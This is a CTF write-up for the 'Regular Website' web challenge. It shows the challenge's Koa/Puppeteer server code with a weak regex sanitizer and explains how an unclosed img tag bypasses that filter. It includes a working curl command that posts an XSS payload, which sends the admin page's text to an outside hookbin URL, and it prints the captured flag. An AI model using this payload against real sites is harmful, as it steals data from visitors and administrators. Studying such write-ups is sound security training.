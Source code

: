 # Regular Website | Web

### Solution

From ctf we have got url to website, *package.json* and *server.ts*

##### server.ts
```ts
import Router from '@koa/router';
import Koa from 'koa';
import koaStatic from 'koa-static';
import bodyParser from 'koa-bodyparser';
import { launch } from 'puppeteer';
import { readFileSync } from 'fs';

const flag = readFileSync("flag.txt", "utf8");
const verbs = readFileSync("verbs.txt", "utf8").split("\n").map(s => s.trim()).filter(s => {
    return s.length > 0 && !s.startsWith("#");
});

const app = new Koa();
const browser = launch({args: ["--incognito", "--no-sandbox"]});

const router = new Router();
router.post("/", async ctx => {
    if (typeof ctx.request.body !== "object") {
        ctx.throw(400, "body must be an object");
        return;
    }
    const text = ctx.request.body.text;
    if (typeof text !== "string") {
        ctx.throw(400, "text must be a string");
        return;
    }

    const sanitized = text.replace(/<[\s\S]*>/g, "XSS DETECTED!!!!!!");
    const page = await (await browser).newPage();
    await page.setJavaScriptEnabled(true);
    try {
        await page.setContent(`
        <!DOCTYPE html>
        <html>
            <head>
                <meta charset="utf-8">
                <title>Comment</title>
            </head>
            <body>
                <p>Welcome to the Regular Website admin panel.</p>
                <h2>Site Stats</h2>
                <p><strong>Comments:</strong> ???</p>
                <p><strong>Flag:</strong> ${flag}</p>
                <h2>Latest Comment</h2>
                ${sanitized}
            </body>
        </html>
        `, {timeout: 3000, waitUntil: "networkidle2"});
    } catch (e) {
        console.error(e);
        ctx.status = 500;
        ctx.body = "error viewing comment";
        await page.close();
        return;
    }
    ctx.body = `The author of this site has ${verbs[Math.floor(Math.random() * verbs.length)]} your comment.`;
    await page.close();
});

app.use(bodyParser());
app.use(router.routes());
app.use(koaStatic("../public"));
app.listen(1337);
console.log("Listening on port 1337");
```

##### package.json
```json
{
    "main": "dist/server.js",
    "scripts": {
        "build": "tsc",
        "build:watch": "tsc -w",
        "start": "node dist/server.js"
    },
    "dependencies": {
        "@koa/router": "^10.0.0",
        "koa": "^2.13.1",
        "koa-bodyparser": "^4.3.0",
        "koa-static": "^5.0.0",
        "puppeteer": "^10.0.0"
    },
    "devDependencies": {
        "@types/koa": "^2.13.3",
        "@types/koa-bodyparser": "^4.3.1",
        "@types/koa-static": "^4.0.1",
        "@types/koa__router": "^8.0.4",
        "@types/node": "^15.12.2",
        "typescript": "^4.3.2"
    }
}
```



To get the flag we need to read the content of a website that admin view when we leave a comment. <br />
From the source code we know that website doesn't have any sanitizer for user input, except for one - regex. <br>
This regex block every input that have html tag pattern (< *any text here* >). Because html is not programming language and don't have any error handler we can simply don't close the tag - html will do it for us<br /> <br >

I used [this website](https://hookbin.com) to create a link with parameter that will include all content of the visited website. After that I created request with curl that as a comment send fake image with payload inside (ofc image src refer to created link): 
```bash
$ curl "webp.bcactf.com:49155" -X POST -H 'Content-Type:application/json' --data-raw '{"text": "<img src=\"#\" onerror=\"window.location=\'https://hookb.in/RZ6X7LXBgnSREEj7DeGO?c=\'+document.body.textContent\""}'
```
Response of that command resulted with content of visited by admin page

### Flag

bcactf{h3_c0mes_Ur74hshR}

#### Credits

- Writeup by [HuntClauss](https://ctftime.org/user/106464)
- Solved by [HuntClauss](https://ctftime.org/user/106464)
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + HuntClauss